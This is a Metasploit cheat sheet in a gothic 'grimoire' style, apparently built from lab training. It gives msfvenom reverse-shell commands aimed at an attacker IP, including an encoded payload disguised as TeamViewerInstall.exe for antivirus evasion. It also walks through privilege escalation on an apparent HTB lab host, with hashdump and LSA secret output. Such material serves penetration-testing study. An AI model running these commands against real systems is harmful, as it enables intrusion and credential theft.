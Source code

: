 
# 🕷️ Metasploit Framework  
*Within this eldritch grimoire lies a vast arsenal of arcane tools for network divination, weaving attacks, and unraveling the deepest secrets of target systems. Harness its dark power to evade the watchful eyes, ascend to forbidden privileges, and command dominion after the breach.*

> *“To command the shadows is to master the unseen forces that bind the network.”*

<details>
<summary><h2>⚠️ Warnings to the Seeker of Shrouded Truth ⚠️</h2></summary>

* **Do not get tunnel vision.**
> *Beware the madness that comes from gazing too long into a single artifact. The Framework is but one relic among many—do not let it become your crutch or your altar. Use it with intent, not dependence.*

* **Please read all the technical documentation you can find for any of our tools.**
> *Before invoking forgotten runes, one must study the glyphs etched in the margins of the old tomes. Knowledge is the warding circle that keeps the daemon in the cage. Read. Absorb. Comprehend.*

* **Many tools can prove to be unpredictable.**
> *Every incantation comes with a price. Some conjurations may awaken watchers, leaving ghostly footprints across the target's domain. Others may tear open rifts in your own sanctum. Always proceed with wards in place and a retreat mapped.*

</details>

---

<details>
<summary><h2>📥 Installation</h2></summary>

The official Metasploit Repository can be found [here](https://github.com/rapid7/metasploit-framework/).  

**Install**

```bash
sudo apt update && sudo apt install metasploit-framework
```

**Verify installation**

```bash
msfconsole -q
```

</details>

---

<details>
<summary><h2>📜 Introduction</h2></summary>

**Modules**

```bash
ls /usr/share/metasploit-framework/modules
```  

**Plugins**

```bash
ls /usr/share/metasploit-framework/plugins/
```  

**Scripts**

```bash
ls /usr/share/metasploit-framework/scripts/
```  

**Tools**

```bash
ls /usr/share/metasploit-framework/tools/
```  

</details>

---

<details>
<summary><h2>🧩 MSF Components</h2></summary>

<details>
<summary><h3>Modules</h3></summary>

Metasploit modules are pre-built scripts designed for specific tasks, each with corresponding functions that have been thoroughly developed and tested in real-world scenarios.

Within the msfconsole, users can choose from a comprehensive collection of available Metasploit modules. These modules are organized into folders, displayed in the following structure:

**Syntax**  

```bash
<No.> <type>/<os>/<service>/<name>
```  

**Example**  

```bash
794   exploit/windows/ftp/scriptftp_list
```  

<details>
<summary><h4>Explanation</h4></summary>

**Index No.**

The No. tag will be displayed to select the exploit we want afterward during our searches.

**Type**

The **Type** tag categorizes Metasploit modules at the highest level. By examining this field, we can determine the module’s intended function. Some types—such as exploit modules—are not directly executable but exist for structural and organizational purposes.

The table below consolidates all possible module types, their descriptions, and indicates whether they can be directly interacted with (e.g., via **use <no.>**).

| Type      | Description                                                                                   | Interactable |
|-----------|-----------------------------------------------------------------------------------------------|--------------|
| Auxiliary | Scanning, fuzzing, sniffing, and admin capabilities. Offer extra assistance and functionality.| ✅           |
| Encoders  | Ensure that payloads are intact to their destination.                                         | ❌           |
| Exploits  | Exploit a vulnerability that allows for payload delivery.                                     | ✅           |
| NOPs      | (No Operation code) Keep payload sizes consistent across exploit attempts.                    | ❌           |
| Payloads  | Code that runs remotely and calls back to the attacker to establish a connection or shell.    | ❌           |
| Plugins   | Additional scripts integrated within assessments via `msfconsole`.                            | ❌           |
| Post      | Modules for information gathering, pivoting deeper into the network, and more.                | ✅           |

**OS**  

The OS tag indicates the target operating system and architecture for which the module was designed. Since different operating systems require distinct code execution methods, this tag ensures compatibility with the intended environment.

**Service**  

The Service tag identifies the vulnerable service running on the target machine. However, for certain modules (e.g., auxiliary or post), this tag may represent a broader action—such as _gather_—which refers to activities like credential collection.

**Name**

The Name tag describes the module's core function—the specific action it performs for its intended purpose.

</details>

<details>
<summary><h4>Search</h4></summary>

Search function

```bash
msf6 > help search
```  

Searching for a module

```bash
msf6 > search eternalblue
```  

Specific search

```bash
msf6 > search type:exploit platform:windows cve:2021 rank:excellent microsoft
```  

Specific payload search

```bash
msf6 > grep meterpreter show payloads
```

Even more specific search

```bash
msf6 > grep meterpreter grep reverse_tcp show payloads
```

</details>

<details>
<summary><h4>Select</h4></summary>

Select Module

```bash
msf6 > use 0
```  

Show options

```bash
msf6 > options
```  

</details>

<details>
<summary><h4>Set</h4></summary>

**Target Specification**

```bash
msf6 > set RHOSTS <TARGET IP>
```  

**Permanent Target Specification**

```bash
msf6 > setg RHOSTS <TARGET IP>
```  

**Target Port Specification**

```bash
msf6 > set RPORT <TARGET PORT>
```  

**Attacker IP specification**

```bash
msf6 > set LHOST <ATTACKER IP>
```  

**Permanent Attacker IP specification**

```bash
msf6 > setg LHOST <ATTACKER IP>
```  

**Attacker Port Specification**

```bash
msf6 > set LPORT 4444
```  

</details>

<details>
<summary><h4>Information</h4></summary>

Show info

```bash
msf6 > info
```  

</details>

<details>
<summary><h4>Exploit Execution</h4></summary>

Execute

```bash
msf6 > run
```

</details>

</details>


<details>
<summary><h3>Common Payloads</h3></summary>

The table below contains the most common payloads used for Windows machines and their respective descriptions.


| Payload                             | Description                                                                 |
|-------------------------------------|-----------------------------------------------------------------------------|
| generic/custom                      | Generic listener, multi-use                                                |
| generic/shell_bind_tcp              | Generic listener, multi-use, normal shell, TCP connection binding          |
| generic/shell_reverse_tcp           | Generic listener, multi-use, normal shell, reverse TCP connection          |
| windows/x64/exec                    | Executes an arbitrary command (Windows x64)                                |
| windows/x64/loadlibrary             | Loads an arbitrary x64 library path                                        |
| windows/x64/messagebox              | Spawns a dialog via MessageBox with customizable title, text & icon        |
| windows/x64/shell_reverse_tcp       | Normal shell, single payload, reverse TCP connection                       |
| windows/x64/shell/reverse_tcp       | Normal shell, stager + stage, reverse TCP connection                       |
| windows/x64/shell/bind_ipv6_tcp     | Normal shell, stager + stage, IPv6 Bind TCP stager                         |
| windows/x64/meterpreter/$           | Meterpreter payload + varieties above                                      |
| windows/x64/powershell/$            | Interactive PowerShell sessions + varieties above                          |
| windows/x64/vncinject/$             | VNC Server (Reflective Injection) + varieties above  

</details>

<details>
<summary><h3>Targets</h3></summary>

The **Target** field specifies particular operating system versions that the exploit module has been adapted to work with. These unique OS identifiers allow the module to customize its execution for specific system versions.

**Show Targets**  

```bash
msf6 > show targets
```

Regular output:
```bash
# Exploit targets:
# 
#    Id  Name
#    --  ----
#    0   Automatic
```

Exploit-specific output:
```bash
# Exploit targets:
# 
#    Id  Name
#    --  ----
#    0   Automatic
#    1   IE 7 on Windows XP SP3
#    2   IE 8 on Windows XP SP3
#    3   IE 7 on Windows Vista
#    4   IE 8 on Windows Vista
#    5   IE 8 on Windows 7
#    6   IE 9 on Windows 7
```

**Select Targets**  

```bash
msf6 > set target 6
```

</details>

<details>
<summary><h3>Payloads</h3></summary>

In Metasploit, a payload is a module that enables successful exploitation, typically by establishing a shell session for the attacker. 

**Show all payloads**

```bash
msf6 > show payloads
```

The framework provides three distinct payload types:


<details>
<summary><h4>1. Singles</h4></summary>

A _Single_ payload contains the exploit and the entire shellcode for the selected task. Inline payloads are by design more stable than their counterparts because they contain everything all-in-one. A Single payload can be as simple as adding a user to the target system or booting up a process.
</details>

<details>
<summary><h4>2. Stagers</h4></summary>

_Stager_ payloads work with Stage payloads to perform a specific task. A Stager is waiting on the attacker machine, ready to establish a connection to the victim host once the stage completes its run on the remote host. Stagers are typically used to set up a network connection between the attacker and victim and are designed to be small and reliable.  

</details>

<details>
<summary><h4>3. Stages</h4></summary>

_Stages_ are payload components that are downloaded by stager's modules.  

Payload stages automatically use middle stagers:

* A single recv() fails with large payloads
* The Stager receives the middle stager
* The middle Stager then performs a full download
* Also better for RWX

</details>

</details>

<details>
<summary><h3>Staged Payloads</h3></summary>

A staged payload modularizes the exploitation process by separating functionality into discrete components. Each stage performs specific tasks while chaining together to execute the complete attack.

Like all payloads, its objectives are twofold:

1. Establish shell access on the target system

2. Maintain minimal footprint to evade AV/IPS detection

**Connection Methodology:**

* Stage 0 (Reverse Connection):

    * The victim host initiates contact back to the attacker

    * Lower detection risk as the connection originates from within the target's security trust zone

    * Establishes initial communication channel

* Stage 1 (Shell Access):

    * After stable connection is established

    * Attacker delivers the larger, more functional payload component

    * Typically provides full shell access and control

<details>
<summary><h4>Meterpreter Payload</h4></summary>

The Meterpreter payload is a specific type of multi-faceted payload that:

- Uses **DLL injection** to establish a stable and covert connection with the victim host.
- Is designed to be **difficult to detect** using simple or conventional system checks.
- Maintains **persistence** across system reboots or changes (depending on configuration).
- Resides **entirely in memory**, leaving **no traces on the hard drive**.
- Evades many **traditional forensic detection techniques**.
- Allows **dynamic loading and unloading of scripts and plugins** during runtime.

</details>

</details>

<details>
<summary><h3>Encoders</h3></summary>

Encoders have assisted with making payloads compatible with different processor architectures while at the same time helping with antivirus evasion. These architectures include:

- x64
- x86
- sparc
- ppc
- mips

Encoders were packed separately from the msfconsole script and were called **msfpayload** and **msfencode**. These two tools are located in _/usr/share/framework2/_.

**Generating Payload - Without Encoding**

```bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=<ATTACKER IP> LPORT=4444 -b "\x00" -f perl
```  

**Generating Payload - With Encoding**

```bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=<ATTACKER IP> LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai
```  

**Generate a payload with the exe format, called TeamViewerInstall.exe**  

```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER IP> LPORT=4444 -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe
```  

**Generate a payload with the exe format, called TeamViewerInstall.exe running it through multiple iterations**  

```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER IP> LPORT=4444 -e x86/shikata_ga_nai -f exe -i 10 -o ./TeamViewerInstall.exe
```  

As anticipated, most commercial antivirus solutions can detect these payloads during real-world engagements. Therefore, additional evasion techniques become necessary to bypass modern endpoint protection systems.

</details>

<details>
<summary><h3>Databases</h3></summary>

The Metasploit Framework utilizes databases within msfconsole to systematically store and manage penetration testing results. The system features native PostgreSQL integration, providing:

**Key Benefits:**

* Instant access to scan results and historical data

* Efficient data management through direct database interaction

* Seamless import/export functionality for integration with external tools

<details>
<summary><h4>Setting up the Database</h4></summary>

**PostgreSQL Status**

```bash
sudo service postgresql status
```  

**Start PostgreSQL**
```bash
sudo systemctl start postgresql
```  

**Initiate a Database**
```bash
sudo apt-get upgrade metasploit-framework
sudo msfdb init
```  

**MSF - Database Status**

```bash
sudo msfdb status
``` 

**MSF - Connect to the Initiated Database**  

```bash
sudo msfdb run
``` 

If your database is already configured but you're unable to modify the MSF user password, use the following command sequence:

**MSF - Reinitiate the Database**

```bash
msfdb reinit
cp /usr/share/metasploit-framework/config/database.yml ~/.msf4/
sudo service postgresql restart
msfconsole -q
``` 

**MSF - msf6 Database Status**

```bash
msf6 > db_status
``` 

**MSF - Database Options**  

```bash
msf6 > help database
``` 

**MSF - Using Nmap Inside MSFconsole**  

```bash
msf6 > db_nmap -sV -sS <TARGET IP>
``` 

**MSF - Review scan results**  

```bash
msf6 > hosts -h
msf6 > services -h
msf6 > creds -h
msf6 > loot -h
``` 

**MSF - Database Backup**  

```bash
msf6 > db_export -f xml backup.xml
``` 

</details>

</details>

<details>
<summary><h3>Plugins</h3></summary>

Metasploit plugins interact directly with the framework’s API, enabling deep integration and control. They serve three primary purposes:

* Automation – Streamline repetitive tasks

* Extensibility – Add custom commands to msfconsole

* Enhancement – Expand the framework’s built-in capabilities

**Listing plugins**  

```bash
ls /usr/share/metasploit-framework/plugins
``` 

**MSF - Load Plugin**  

```bash
msf6 > load nessus
msf6 > nessus_help
``` 

**Downloading plugins**  

```bash
git clone https://github.com/darkoperator/Metasploit-Plugins
ls Metasploit-Plugins
``` 

**MSF - Copying Plugin to MSF**  

```bash
sudo cp ./Metasploit-Plugins/pentest.rb /usr/share/metasploit-framework/plugins/pentest.rb
``` 

**MSF - Load the new plugin**  

```bash
msf6 > load pentest
msf6 > help
``` 

</details>

</details>

---

<details>
<summary><h2>🤝 MFS Sessions</h2></summary>

<details>
<summary><h3>Sessions</h3></summary>

**Multi-Session Management in MSFconsole**

MSFconsole supports concurrent management of multiple modules and sessions. Key capabilities include:

1. Session Switching – Seamlessly transition between active sessions

2. Module Linking – Attach new modules to backgrounded sessions

3. Job Conversion – Convert sessions into persistent background jobs

**Important Notes:**

* Backgrounded sessions maintain active connections to target hosts

* Sessions may terminate unexpectedly due to:

    * Payload execution failures

    * Communication channel disruptions

**Backgrounding Sessions in MSFconsole**  

Active sessions can be backgrounded when they maintain communication with the target host. This allows operators to:

* Preserve established connections

* Switch between multiple engagements

* Deploy additional modules without session interruption

**Backgrounding Methods:**

1. Keyboard Shortcut: CTRL+Z (Universal)

2. Meterpreter Command: meterpreter > bg

**Process Flow:**

1. Initiate background request

2. Confirm action via prompt

3. Return to msf6

4. Immediately deploy new modules

**Listing Active Sessions**

```bash
msf6 exploit(windows/smb/psexec_psh) > sessions
```  

**Interacting with a Session**

```bash
msf6 exploit(windows/smb/psexec_psh) > sessions -i 1
``` 

</details>

<details>
<summary><h3>Jobs</h3></summary>

When an active exploit occupies a port needed for another module, improper termination (e.g., CTRL+C) leaves the port bound. Instead, follow this procedure:

**1. Check Active Jobs**

```bash
msf6 > jobs -l
``` 

**2. Terminate Conflicts**

```bash
msf6 > jobs -k <ID>
``` 

**Jobs Command Help Menu**  

```bash
msf6 > jobs -h
``` 

**Running an Exploit as a Background Job**  

```bash
msf6 > exploit -j
``` 

</details>

<details>
<summary><h3>Meterpreter</h3></summary>

The Meterpreter payload is an advanced, modular attack platform that employs sophisticated techniques to maintain stealth and persistence:

<details>
<summary><h4>Objectives</h4></summary>

* Provide a stable, extensible platform for internal host enumeration

* Facilitate rapid privilege escalation path discovery

* Enable advanced defensive evasion techniques

</details>

<details>
<summary><h4>Capabilites</h4></summary>

* Utilizes reflective DLL injection for stable, low-detectability implants

* Supports memory-only operation (no disk artifacts)

* Features configurable persistence mechanisms

</details>

<details>
<summary><h4>Operational Advantages</h4></summary>

1. Stealth Characteristics

    * No traditional process spawning

    * Avoids disk writes (in-memory execution only)

    * Encrypted communications channel

2. Persistence Options

    * Survives system reboots when properly configured

    * Maintains sessions through network changes

    * Supports migration between processes

3. Extended Functionality

    * Modular architecture for on-demand capability expansion

    * Built-in privilege escalation techniques

    * Comprehensive post-exploitation toolkit
</details>

<details>
<summary><h4>Using Meterpreter</h4></summary>

Displays a list of available Meterpreter commands and their descriptions.

```bash
meterpreter > help
``` 

Shows the current user (UID) that the Meterpreter session is running under.

```bash
meterpreter > getuid
``` 

Lists all running processes on the target system, including PIDs and owners.

```bash
meterpreter > ps
``` 

Steals the security token from a specified process (PID 1836) to impersonate its privileges.

```bash
meterpreter > steal_token 1836
``` 

Dumps the password hashes of all local user accounts (stored in the SAM database).

```bash
meterpreter > hashdump
``` 

Extracts and displays password hashes from the Security Account Manager (SAM) via the LSASS process.

```bash
meterpreter > load kiwi
meterpreter > lsa_dump_sam
``` 

Retrieves encrypted secrets (like cached credentials and auto-login passwords) from the LSASS memory.

```bash
meterpreter > lsa_dump_secrets
``` 

</details>

<details>
<summary><h4>Example Compromise Walkthrough</h4></summary>



**MSF - Meterpreter Migration**

```bash
meterpreter > getuid
# [-] 1055: Operation failed: Access is denied.

meterpreter > ps
# Process List
# ============
# 
#  PID   PPID  Name               Arch  Session  User                          Path
#  ---   ----  ----               ----  -------  ----                          ----
#  0     0     [System Process]                                                
#  4     0     System                                                  #         
#  216   1080  cidaemon.exe                                                    
#  272   4     smss.exe                                                     #    
#  292   1080  cidaemon.exe                                                    
# <...SNIP...>

# 1836  592   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe


meterpreter > steal_token 1836
# Stolen token with username: NT AUTHORITY\NETWORK SERVICE

meterpreter > getuid

# Server username: NT AUTHORITY\NETWORK SERVICE

``` 

**MSF - Meterpreter Migration**
```bash
meterpreter > bg

# Background session 1? [y/N]  y

msf6 exploit(windows/iis/iis_webdav_upload_asp) > search local_exploit_suggester

# Matching Modules
# ================
# 
#    #  Name                                      Disclosure Date  Rank    Check  Description
#    -  ----                                       ---------------  ----    -----  -----------
#    0  post/multi/recon/ local_exploit_suggester                   normal   No     Multi Recon Local Exploit Suggester

msf6 exploit(windows/iis/iis_webdav_upload_asp) > use 0
msf6 post(multi/recon/local_exploit_suggester) > show options

# Module options (post/multi/recon/local_exploit_suggester):
# 
#    Name             Current Setting  Required  Description
#    ----             ---------------  --------  -----------
#    SESSION                           yes       The session to run this module on
#    SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1

# SESSION => 1

msf6 post(multi/recon/local_exploit_suggester) > run

# [*] 10.10.10.15 - Collecting local exploits for x86/windows...
# [*] 10.10.10.15 - 34 exploit checks are being tried...
# [+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
# [+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
# [+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
# [+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
# [+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
# [+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
# [*] Post module execution completed 

msf6 post(multi/recon/local_exploit_suggester) > 
```

**MSF - Privilege Escalation**

```bash
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms15_051_client_copy_images

# [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

msf6 exploit(windows/local/ms15_051_client_copy_image) > show options

# Module options (exploit/windows/local/ms15_051_client_copy_image):

#    Name     Current Setting  Required  Description
#    ----     ---------------  --------  -----------
#    SESSION                   yes       The session to run this module on.


# Payload options (windows/meterpreter/reverse_tcp):

#    Name      Current Setting  Required  Description
#    ----      ---------------  --------  -----------
#    EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
#    LHOST     46.101.239.181   yes       The listen address (an interface may be specified)
#    LPORT     4444             yes       The listen port


# Exploit target:

#    Id  Name
#    --  ----
#    0   Windows x86

msf6 exploit(windows/local/ms15_051_client_copy_image) > set SESSION 1

# SESSION => 1

msf6 exploit(windows/local/ms15_051_client_copy_image) > set LHOST tun0

# LHOST => tun0

msf6 exploit(windows/local/ms15_051_client_copy_image) > run

# [*] Started reverse TCP handler on 10.10.14.26:4444 
# [*] Launching notepad to host the exploit...
# [+] Process 844 launched.
# [*] Reflectively injecting the exploit DLL into 844...
# [*] Injecting exploit into 844...
# [*] Exploit injected. Injecting payload into 844...
# [*] Payload injected. Executing exploit...
# [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
# [*] Sending stage (175174 bytes) to 10.10.10.15
# [*] Meterpreter session 2 opened (10.10.14.26:4444 -> 10.10.10.15:1031) at 2020-09-03 10:35:01 +0000

meterpreter > getuid

# Server username: NT AUTHORITY\SYSTEM

``` 

**MSF - Dumping Hashes**

```bash
meterpreter > hashdump

# Administrator:500:c74761604a24f0dfd0a9ba2c30e462cf:d6908f022af0373e9e21b8a241c86dca:::
# ASPNET:1007:3f71d62ec68a06a39721cb3f54f04a3b:edc0d5506804653f58964a2376bbd769:::
# Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
# IUSR_GRANPA:1003:a274b4532c9ca5cdf684351fab962e86:6a981cb5e038b2d8b713743a50d89c88:::
# IWAM_GRANPA:1004:95d112c4da2348b599183ac6b1d67840:a97f39734c21b3f6155ded7821d04d16:::
# Lakis:1009:f927b0679b3cc0e192410d9b0b40873c:3064b6fc432033870c6730228af7867c:::
# SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:8ed3993efb4e6476e4f75caebeca93e6:::

meterpreter > lsa_dump_sam

# [+] Running as SYSTEM
# [*] Dumping SAM
# Domain : GRANNY
# SysKey : 11b5033b62a3d2d6bb80a0d45ea88bfb
# Local SID : S-1-5-21-1709780765-3897210020-3926566182

# SAMKey : 37ceb48682ea1b0197c7ab294ec405fe

# RID  : 000001f4 (500)
# User : Administrator
#   Hash LM  : c74761604a24f0dfd0a9ba2c30e462cf
#   Hash NTLM: d6908f022af0373e9e21b8a241c86dca

# RID  : 000001f5 (501)
# User : Guest

# RID  : 000003e9 (1001)
# User : SUPPORT_388945a0
#   Hash NTLM: 8ed3993efb4e6476e4f75caebeca93e6

# RID  : 000003eb (1003)
# User : IUSR_GRANPA
#   Hash LM  : a274b4532c9ca5cdf684351fab962e86
#   Hash NTLM: 6a981cb5e038b2d8b713743a50d89c88

# ...
```

**MSF - Meterpreter LSA Secrets Dump**

```bash
meterpreter > lsa_dump_secrets

# [+] Running as SYSTEM
# [*] Dumping LSA secrets
# Domain : GRANNY
# SysKey : 11b5033b62a3d2d6bb80a0d45ea88bfb

# Local name : GRANNY ( S-1-5-21-1709780765-3897210020-3926566182 )
# Domain name : HTB

# Policy subsystem is : 1.7
# LSA Key : ada60ee248094ce782807afae1711b2c

# Secret  : aspnet_WP_PASSWORD
# cur/text: Q5C'181g16D'=F

# Secret  : D6318AF1-462A-48C7-B6D9-ABB7CCD7975E-SRV
# cur/hex : e9 1c c7 89 aa 02 92 49 84 58 a4 26 8c 7b 1e c2 

# Secret  : DPAPI_SYSTEM
# cur/hex : 01 00 00 00 7a 3b 72 f3 cd ed 29 ce b8 09 5b b0 e2 63 73 8a ab c6 ca 49 2b 31 e7 9a 48 4f 9c b3 10 fc fd 35 bd d7 d5 90 16 5f fc 63 
#     full: 7a3b72f3cded29ceb8095bb0e263738aabc6ca492b31e79a484f9cb310fcfd35bdd7d590165ffc63
#     m/u : 7a3b72f3cded29ceb8095bb0e263738aabc6ca49 / 2b31e79a484f9cb310fcfd35bdd7d590165ffc63

# Secret  : L$HYDRAENCKEY_28ada6da-d622-11d1-9cb9-00c04fb16e75
# cur/hex : 52 53 41 32 48 00 00 00 00 02 00 00 3f 00 00 00 01 00 01 00 b3 ec 6b 48 4c ce e5 48 f1 cf 87 4f e5 21 00 39 0c 35 87 88 f2 51 41 e2 2a e0 01 83 a4 27 92 b5 30 12 aa 70 08 24 7c 0e de f7 b0 22 69 1e 70 97 6e 97 61 d9 9f 8c 13 fd 84 dd 75 37 35 61 89 c8 00 00 00 00 00 00 00 00 97 a5 33 32 1b ca 65 54 8e 68 81 fe 46 d5 74 e8 f0 41 72 bd c6 1e 92 78 79 28 ca 33 10 ff 86 f0 00 00 00 00 45 6d d9 8a 7b 14 2d 53 bf aa f2 07 a1 20 29 b7 0b ac 1c c4 63 a4 41 1c 64 1f 41 57 17 d1 6f d5 00 00 00 00 59 5b 8e 14 87 5f a4 bc 6d 8b d4 a9 44 6f 74 21 c3 bd 8f c5 4b a3 81 30 1a f6 e3 71 10 94 39 52 00 00 00 00 9d 21 af 8c fe 8f 9c 56 89 a6 f4 33 f0 5a 54 e2 21 77 c2 f4 5c 33 42 d8 6a d6 a5 bb 96 ef df 3d 00 00 00 00 8c fa 52 cb da c7 10 71 10 ad 7f b6 7d fb dc 47 40 b2 0b d9 6a ff 25 bc 5f 7f ae 7b 2b b7 4c c4 00 00 00 00 89 ed 35 0b 84 4b 2a 42 70 f6 51 ab ec 76 69 23 57 e3 8f 1b c3 b1 99 9e 31 09 1d 8c 38 0d e7 99 57 36 35 06 bc 95 c9 0a da 16 14 34 08 f0 8e 9a 08 b9 67 8c 09 94 f7 22 2e 29 5a 10 12 8f 35 1c 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

# Secret  : L$RTMTIMEBOMB_1320153D-8DA3-4e8e-B27B-0D888223A588
# cur/hex : 00 f2 d1 31 e2 11 d3 01 

# Secret  : L$TermServLiceningSignKey-12d4b7c8-77d5-11d1-8c24-00c04fa3080d

```

</details>

</details>

</details>

---

<details>
<summary><h2>➕ Additional Features</h2></summary>

<details>
<summary><h3>Importing Modules</h3></summary>

**Required Formatting**

* **Character Set**

    * ✅ Alphanumeric characters only (a-z, 0-9)

    * ✅ Underscores (_) for word separation

* **Case Standard**

    * Exclusive use of snake_case (all lowercase)

    * Example: exploit/windows/http/example_module.rb

* **Prohibited Elements**

    * ❌ Hyphens (-) or spaces

    * ❌ Special characters (@, #, &, etc.)

    * ❌ Uppercase letters

* **Common Error Scenarios**

    1. Hyphen Misuse

        * ❌ Invalid: my-module.rb

        * ✅ Valid: my_module.rb

    2. Case Sensitivity

        * ❌  Invalid: MyModule.rb

        * ✅ Valid: my_module.rb  

<details>
<summary><h4>Full Upgrade</h4></summary>

To incorporate community-developed modules into your Metasploit installation:

Execute:

```bash
msfupdate
``` 

This fetches all newly integrated:

* Exploit modules

* Auxiliary components

* Framework enhancements

</details>

<details>
<summary><h4>Manual</h4></summary>

1. Source Selection

    * Prioritize ExploitDB for verified modules

    * Filter using the "Metasploit Framework (MSF)" tag to ensure compatibility

2. Installation

Download module:

```bash
wget <EXPLOIT URL> -O /usr/share/metasploit-framework/modules/exploits/<CATEGORY>/<EXPLOIT>
``` 

3. Verification

Search within msfconsole:

```bash
msf6 > reload_all
msf6 > search type:exploit <module_name>
``` 

</details>

</details>

<details>
<summary><h3>Introduction to MSFVenom</h3></summary>

MSFVenom replaces the legacy MSFPayload and MSFEncode utilities, combining their functionality into a single powerful tool. As the modern payload generation framework for Metasploit, it enables security professionals to craft highly customizable and evasive payloads while maintaining full integration with msfconsole for exploit delivery.

<details>
<summary><h4>Creating Our Payloads</h4></summary>

**Generating Payload**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER IP> LPORT=4444 -f aspx > reverse_shell.aspx
``` 

**MSF - Setting Up Multi/Handler**  

```bash
msfconsole -q 

msf6 > use multi/handler
msf6 exploit(multi/handler) > show options
msf6 exploit(multi/handler) > set LHOST <ATTACKER IP>
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > run
``` 

**Executing the Payload**

_Navigate to the upload path_ (e.g. http://TARGET/reverse_shell.aspx)

**MSF - Meterpreter Shell**

```bash
# [*] Started reverse TCP handler on <ATTACKER IP>:4444 

# [*] Sending stage (176195 bytes) to <TARGET IP>
# [*] Meterpreter session 1 opened (<ATTACKER IP>:4444 -> <TARGET IP>:<TARGET PORT>) at 2020-08-28 16:33:14 +0000


meterpreter > getuid

# Server username: IIS APPPOOL\Web
``` 

**Executing the Payload**

```bash
meterpreter > background

msf6 > search local exploit suggester

msf6 > use post/multi/recon/local_exploit_suggester

msf6 post(multi/recon/local_exploit_suggester) > show options

msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1

msf6 post(multi/recon/local_exploit_suggester) > run

# [*] <TARGET IP> - Collecting local exploits for x86/windows...
# [*] <TARGET IP> - 31 exploit checks are being tried...
# [+] <TARGET IP> - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
# [+] <TARGET IP> - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
# [+] <TARGET IP> - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
# [+] <TARGET IP> - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
# [+] <TARGET IP> - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
# [+] <TARGET IP> - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
# [+] <TARGET IP> - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
# [+] <TARGET IP>\ - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
# [+] <TARGET IP>\ - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
# [+] <TARGET IP>\ - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
# [+] <TARGET IP>\ - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
# [+] <TARGET IP>\ - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
# [*] Post module execution completed
``` 

**MSF - Local Privilege Escalation**

```bash
msf6 exploit(multi/handler) > search kitrap0d

msf6 exploit(multi/handler) > use exploit/windows/local/ms10_015_kitrap0d

msf6 exploit(windows/local/ms10_015_kitrap0d) > show options

msf6 exploit(windows/local/ms10_015_kitrap0d) > set LPORT 4445

msf6 exploit(windows/local/ms10_015_kitrap0d) > set SESSION 2

msf6 exploit(windows/local/ms10_015_kitrap0d) > run

# [*] Started reverse TCP handler on <ATTACKER IP>:4445 
# ...
# [*] Meterpreter session 4 opened (<ATTACKER IP>:4445 -> <TARGET IP>:<TARGET PORT>) at 2020-08-28 17:15:56 +0000

meterpreter > getuid

# Server username: NT AUTHORITY\SYSTEM

``` 

</details>

</details>

<details>
<summary><h3>Firewall and IDS/IPS evasion</h3></summary>

<details>
<summary><h4>Terms</h4></summary>

To better learn how we can efficiently and quietly attack a target, we first need to understand better how that target is defended. We are introduced to two new terms:

* **Endpoint protection:** Endpoint protection refers to any localized device or service whose sole purpose is to protect a single host on the network. The host can be a personal computer, a corporate workstation, or a server in a network's De-Militarized Zone (DMZ).


* **Security Policies:** They are essentially a list of allow and deny statements that dictate how traffic or files can exist within a network boundary. These lists can also target different features of the network and hosts, depending on where they reside:

    * Network Traffic Policies
